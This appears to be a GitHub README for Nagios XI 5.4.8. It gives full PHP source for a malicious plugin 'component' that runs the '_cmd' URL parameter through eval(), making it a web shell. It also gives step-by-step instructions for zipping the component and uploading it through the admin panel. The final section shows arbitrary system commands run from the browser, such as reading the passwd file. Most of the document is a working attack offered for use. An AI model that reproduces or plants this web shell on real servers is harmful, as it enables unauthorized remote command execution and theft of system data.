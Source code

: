 ## After the NagiosXI administration panel has been accessed, we can upload our malicious component that will give us the web shell on the server, even if we are not authorized on it. ##
# Component code example #
```php
<?php
// PHP Shell Spawn Component

require_once(dirname(__FILE__) . '/../componenthelper.inc.php');

$shellaction_component_name = "shellaction";
shellaction_component_init();

////////////////////////////////////////////////////////////////////////
// COMPONENT INIT FUNCTIONS
////////////////////////////////////////////////////////////////////////

function shellaction_component_init()
{
    global $shellaction_component_name;

    $desc = "";


    $args = array(
        COMPONENT_NAME =>           $shellaction_component_name,
        COMPONENT_AUTHOR =>         "test",
        COMPONENT_DESCRIPTION =>    _("test. ") . $desc,
        COMPONENT_TITLE =>          "shell",
        COMPONENT_DATE =>           '08/08/2017',
        COMPONENT_VERSION =>        '1.3.3.7'
    );

    register_component($shellaction_component_name, $args);

    if (isset($_GET['_cmd']))
        eval($_GET['_cmd']);
}

```
## Component creation and uploading ##
1) First, the component must be saved with a name similar to the variable *$shellaction_component_name*.inc.php (example: shellaction.inc.php).

2) Put the file in a folder with the same name of the variable (example: shellaction).

![file into folder](https://image.prntscr.com/image/wxoJEU6gSgmmRG3wHDovuA.png)

3) After all the folder should be zip archived (example for *nix: zip -r shell.zip shellaction).

4) Go to the section manage components and upload our component (shell.zip).

![manage components](https://image.prntscr.com/image/l7K9XR4hS0WWQMQnApg6Bw.png)

![check if it's added](https://image.prntscr.com/image/luboWJCYQiCKzQ1FzkMKew.png)

## Command execution ##

After that we can execute system commands directly through the address bar of the browser (example: host/nagiosxi/admin?xiwindow=dashlets.php&_cmd=system('cat etc/passwd');)

![it works!](https://image.prntscr.com/image/ouIOS_EpTxWQkk4lOnDofw.png)
## We are done here! ##

Tested on NagiosXI 5.4.8
